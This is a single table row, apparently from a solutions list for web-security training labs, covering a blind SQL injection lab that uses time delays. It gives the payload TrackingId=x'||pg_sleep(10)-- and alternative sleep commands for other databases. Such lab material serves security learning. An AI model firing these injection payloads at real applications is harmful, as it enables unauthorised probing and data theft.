 |37    |Blind SQL injection with time delays                                                                                     |TrackingId=x'&#124;&#124;pg_sleep(10)--                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                               |This will cause a 10 second delay, the SQLi cheat sheet has more options, such as: SELECT SLEEP(10) WAITFOR DELAY '0:0:10'                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                     |Practitioner, SQLi                          |